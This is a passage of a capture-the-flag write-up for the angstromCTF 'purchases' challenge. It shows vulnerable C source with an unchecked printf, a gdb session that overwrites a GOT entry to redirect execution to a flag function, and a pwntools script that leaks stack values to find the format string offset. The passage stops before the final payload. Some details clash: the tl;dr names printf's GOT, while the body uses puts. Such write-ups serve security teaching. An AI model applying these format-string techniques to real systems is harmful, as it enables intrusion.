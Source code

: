 ## angstromCTF: purchases
>This grumpy shop owner won't sell me his flag! At least I have his source.

##### *tl;dr: format string vulnerability to overwrite printf GOT*
### Source Code Analysis
#### As with the other pwn challenges, the source codes are given - making the vulnerability finding process much easier:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

int main() {
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	char item[60];
	printf("What item would you like to purchase? ");
	fgets(item, sizeof(item), stdin);
	item[strlen(item)-1] = 0;

	if (strcmp(item, "nothing") == 0) {
		printf("Then why did you even come here? ");
	} else {
		printf("You don't have any money to buy ");
		printf(item);
		printf("s. You're wasting your time! We don't even sell ");
		printf(item);
		printf("s. Leave this place and buy ");
		printf(item);
		printf(" somewhere else. ");
	}

	printf("Get out!\n");
	return 0;
}
```
#### Taking a quick look at the source code, we quickly spot the vulnerability which is the printf function being called without format specifiers (`printf(item);`). What this means is that printf interprets buffer as a format string, and parses any formatting instructions it may contain - thus leading to code executions and memory leaks. 
#### A format string exploit could be executed when the application doesn’t properly validate the submitted input. For example, if a format string parameter, like %x, is inserted into the posted data, the string is parsed by the format function, and the conversion specified in the parameters is executed. However, the format function is expecting more arguments as input, and if these arguments are not supplied, the function could read or write the stack. 
#### To have a better understanding of how we will exploit this challenge, here are quick links to `LiveOverflow`'s videos on format string exploitation:
> [A simple Format String exploit example - bin 0x11](https://www.youtube.com/watch?v=0WvrSfcdq1I&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=18)

> [Global Offset Table (GOT) and Procedure Linkage Table (PLT) - bin 0x12](https://www.youtube.com/watch?v=kUk5pw4w0h4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=19)

> [Format String Exploit and overwrite the Global Offset Table - bin 0x13](https://www.youtube.com/watch?v=t1LH9D5cuK4&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=20)

> [Adapting the 32bit exploit to 64bit for format4 - bin 0x27](https://www.youtube.com/watch?v=_lO_rwaK_pY&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=42)

### Brainstorming
#### Examining the source code again, we see that there is is a flag function which prints out the flag for us. Taking a note of this, our exploit plan will be to take advantage of the format string vulnerability to overwrite puts' `GOT address` to the flag function - thus making puts execute what flag does. To test if our plan would work, we try it out in gdb. We set a breakpoint before the puts call, then change the it's GOT address to the address of flag:
```
$ gdb ./purchases
	gdb-peda$ disas printf
	Dump of assembler code for function puts@plt:
	0x0000000000401030 <+0>:	jmp    QWORD PTR [rip+0x2fe2]        # 0x404018
	0x0000000000401036 <+6>:	push   0x0
	0x000000000040103b <+11>:	jmp    0x401020
	End of assembler dump..
	
	gdb-peda$ p flag
	$1 = {<text variable, no debug info>} 0x4011b6 <flag>
	
	gdb-peda$ disas main
	[...]
	0x000000000040131a <+337>:	call   0x401080 <printf@plt>
	0x000000000040131f <+342>:	lea    rdi,[rip+0xdda]        # 0x402100
	0x0000000000401326 <+349>:	call   0x401030 <puts@plt>
	0x000000000040132b <+354>:	mov    eax,0x0
	[...]
	
	gdb-peda$ break *0x0000000000401326
	Breakpoint 1 at 0x401326
	
	gdb-peda$ r
	What item would you like to purchase? everything
	You don't have any money to buy everythings. You're wasting your time! We don't even sell everythings. Leave this place and buy everything somewhere else. 
	Breakpoint 1, 0x0000000000401326 in main ()
	
	gdb-peda$ set {int}0x404018=0x4011b6
	
	gdb-peda$ x/ 0x404018
	0x404018:	0x00000000004011b6
	
	gdb-peda$ c
	Continuing.
	[New process 11726]
	process 11726 is executing new program: /bin/dash
	Warning:
	Cannot insert breakpoint 1.
	Cannot access memory at address 0x401326
```
#### To talk you through what just happened, first we disassembled the puts function and saw that the first thing it does is to jump to it's GOT entry address, `0x404018`. Now that we have the GOT address for puts, we printed out the address for flag, set a breakpoint before our puts call. After we hit the breakpoint, we set the contents of the GOT address to flag's address, then we validate if we have successfully overwriten the value. Continuing the process, the binary executes /bin/dash and proceeds to call the flag function.

### Exploitation
#### Since we have confirmed that our plan works theoretically, it's time to craft the exploit. For this to work, we need to find out which offset we can find our buffer. We can automate this using a short script:
```python
from pwn import *

#: Connect to challenge server
p = process('./purchases')
print(p.recv())

#: Exploit code
exploit = 'AAAABBBB' + ' %p ' * 10

#: Send payload
p.sendline(exploit)
print(p.recv())
```
#### Running the script, we get this result:
```
What item would you like to purchase? 
You don't have any money to buy AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x20  0x7f5f5d4d74c0  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520 s. You're wasting your time! We don't even sell AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x30  (nil)  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520 s. Leave this place and buy AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x1c  (nil)  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520  somewhere else. Get out!
```
#### The input we provided has hex values of 0x41 and 0x42, and searching them in the output, we see that our buffer can be found at offset 8. Modifying the script we used earlier, we can verify this by only printing out the 8th offset from the leak. 
```python
#: Exploit code
exploit = 'AAAABBBB' + ' %8$p'
```
#### Which results to:
```
You don't have any money to buy AAAABBBB 0x4242424241414141s. You're wasting your time! We don't even sell AAAABBBB 0x4242424241414141s. Leave this place and buy AAAABBBB 0x4242424241414141 somewhere else. Get out!
```


